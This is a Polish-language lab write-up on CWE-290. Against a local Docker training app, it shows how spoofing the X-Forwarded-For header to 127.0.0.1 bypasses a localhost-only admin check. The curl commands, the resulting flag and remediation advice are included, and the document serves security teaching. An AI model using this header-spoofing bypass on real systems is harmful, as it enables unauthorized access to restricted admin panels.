

# Zadanie 8.1 — Admin Bypass przez X-Forwarded-For (CWE-290)

> **Cel:** uzyskać dostęp do `/vuln1/admin` (dozwolony tylko z `127.0.0.1`) bez
> łączenia się faktycznie z localhost — przez sfałszowanie nagłówka
> `X-Forwarded-For`.

| | |
|---|---|
| **Aplikacja** | `docker run -dp 5000:5000 docker.io/mazurkatarzyna/cwe-290-ex1:latest` → `http://127.0.0.1:5000` |
| **Podatność** | CWE-290 (Authentication Bypass by Spoofing) |
| **Endpointy** | `/whoami`, `/vuln1/admin` |
| **Flaga** | `FLAG{localhost_trust_bypass}` |

## b) Rozpoznanie
```bash
curl -s http://127.0.0.1:5000/whoami
# {"real_socket_peer":"172.17.0.1","x_forwarded_for_header":null}
```
Serwer widzi nas jako `172.17.0.1` (brama sieci dockera), bez XFF.

## c) Dostęp normalny → odmowa
```bash
curl -s http://127.0.0.1:5000/vuln1/admin
# {"access":"denied","detail":"Admin panel is restricted to localhost (127.0.0.1).
#  The client IP seen for this request is not local ...","seen_client_ip":"172.17.0.1"}
```

## d) Obejście — sfałszowany XFF
```bash
curl -s http://127.0.0.1:5000/vuln1/admin -H "X-Forwarded-For: 127.0.0.1"
# {"panel":"FLAG{localhost_trust_bypass}"}
```



## Na czym polega błąd
Kontrola dostępu czyta **IP klienta z nagłówka `X-Forwarded-For`** (dane od
klienta), zamiast z rzeczywistego adresu połączenia TCP. XFF to zwykły,
dowolnie ustawialny tekst — więc każdy może podać `127.0.0.1` i udawać localhost.

## Jak naprawić
- Autoryzację opierać na **rzeczywistym IP połączenia** (socket peer), nie na XFF.
- XFF ufać **tylko** gdy żądanie przyszło od znanego, zaufanego reverse-proxy, i
  brać wtedy właściwy wpis (dodany przez nasz proxy), nie dowolny od klienta.
- Odrzucać/ignorować XFF przychodzący bezpośrednio od klienta.
